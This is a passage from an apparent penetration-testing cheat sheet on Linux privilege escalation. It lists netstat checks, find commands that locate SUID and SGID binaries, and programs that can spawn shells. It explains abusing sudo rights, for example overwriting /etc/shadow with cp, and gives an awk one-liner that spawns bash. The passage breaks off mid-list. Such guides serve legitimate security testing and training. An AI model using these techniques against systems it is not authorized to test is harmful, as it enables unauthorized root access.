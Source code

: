Check the netstat and compare it with the nmap-scan you did from the outside. Do you find more services available from the inside?

```text
# Linux
netstat -anlp
netstat -ano
```

### Suid and Guid Misconfiguration

When a binary with suid permission is run it is run as another user, and therefore with the other users privileges. It could be root, or just another user. If the suid-bit is set on a program that can spawn a shell or in another way be abuse we could use that to escalate our privileges.

For example, these are some programs that can be used to spawn a shell:

```text
nmap
vim
less
more
```

If these programs have suid-bit set we can use them to escalate privileges too. For more of these and how to use the see the next section about abusing sudo-rights:

```text
nano
cp
mv
find
```

**Find suid and guid files**

```text
#Find SUID
find / -perm -u=s -type f 2>/dev/null

#Find GUID
find / -perm -g=s -type f 2>/dev/null
```

### Abusing sudo-rights

If you have a limited shell that has access to some programs using `sudo` you might be able to escalate your privileges with. Any program that can write or overwrite can be used. For example, if you have sudo-rights to `cp` you can overwrite `/etc/shadow` or `/etc/sudoers` with your own malicious file.

`awk`

```text
awk 'BEGIN {system("/bin/bash")}'
```

`bash`
